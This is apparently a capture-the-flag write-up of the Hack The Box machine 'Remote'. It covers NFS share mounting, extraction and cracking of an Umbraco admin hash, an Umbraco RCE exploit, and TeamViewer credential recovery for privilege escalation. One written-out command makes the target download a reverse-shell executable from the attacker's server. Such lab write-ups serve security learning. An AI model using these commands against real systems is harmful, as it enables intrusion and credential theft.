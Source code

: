 ```yaml
---
layout: post
title: Remote
---
```


# Remote
### 10.10.10.180

![nmap](../../images/writeups/remote/header.png)

### Port Scanning and general enumeration (Nmap, Umbraco)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)
  * [Umbraco](https://umbraco.com/)
 
**nmap [-sC](https://nmap.org/book/man-nse.html) [-sV](https://nmap.org/book/man-version-detection.html) [-oN](https://nmap.org/book/man-output.html) nmap/initial [-T4](https://nmap.org/book/man-performance.html) 10.10.10.180**

![nmap](../../images/writeups/remote/nmap.png)

Interesting. FP, Webserver and maybe some nfs shares we can mount?

Let's take a look at the site

![nmap](../../images/writeups/remote/site1.png)

Looks like some sort of blog.. 'Umbraco'?

![nmap](../../images/writeups/remote/site2.png)

![nmap](../../images/writeups/remote/login.png)

So we've found a login form. Nice. Default creds didn't work, so we'll come back to this.

Let's see if there's anything to mount

![nmap](../../images/writeups/remote/showmount.png)

Interesting! Let's mount it

**sudo mount -t nfs 10.10.10.180:/site_backups /path/to/where/you/want/to/save/it**

Full site backup!

Since we know the backend is **Umbraco**, we can find the version in the `Web.config` file and credentials in the `App_Data/Umbraco.sdf` file.

Version:

![nmap](../../images/writeups/remote/version.png)

To get the credentials we can run `strings` on the `Umbraco.sdf` file, redirect it to a file and run `head` on that file

![nmap](../../images/writeups/remote/creds.png)

So the admin password is a `SHA1` hash. Let's crack it and log in using `Admin@htb.local:cracked-password` in the forms we found earlier.

---

### Access (Umbraco RCE, msfvenom)
* Reading/Resources
  * [Umbraco RCE](https://github.com/noraj/Umbraco-RCE)
  * [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
  * [Metasploit](https://www.metasploit.com/)
  

So now that we're authenticated we have a little more room to play with things. I found this [Umbraco RCE](https://github.com/noraj/Umbraco-RCE) script that should be perfect

![nmap](../../images/writeups/remote/rce.png)

Nice! So now we have remote code execution. Let's get a proper shell

![nmap](../../images/writeups/remote/msfvenom.png)

Stand up a simple [python http server](https://docs.python.org/3/library/http.server.html) and use the exploit to transfer our executable to the machine

`python3 exploit.py -u admin@htb.local -p password -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command Invoke-WebRequest -Uri http://10.10.14.22:8000/rev.exe -OutFile C:/Users/Public/rev.exe`

Now that our shell is on the box, let's fire up a `metasploit` listener

![nmap](../../images/writeups/remote/listener.png)

Trigger the shell and off we go

---

### Privesc (winPEAS, evil-winrm)
* Reading/Resources
  * [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)

Now that we're on the box, let's do some enumeration. I like [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Upload and run it

![nmap](../../images/writeups/remote/peasupload.png)

![nmap](../../images/writeups/remote/peas.png)

Interesting. Teamviewer7 also has a [metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer_passwords.md). Let's see what that has for us

Background your meterpreter session and

![nmap](../../images/writeups/remote/teamviewersearch.png)

![nmap](../../images/writeups/remote/teamviewerpassword.png)

Could that be the **Admin** password? Let's check using [evil-winrm](https://github.com/Hackplayers/evil-winrm)

![nmap](../../images/writeups/remote/admin.png)

![nmap](../../images/writeups/remote/userflag.png)

![nmap](../../images/writeups/remote/rootflag.png)
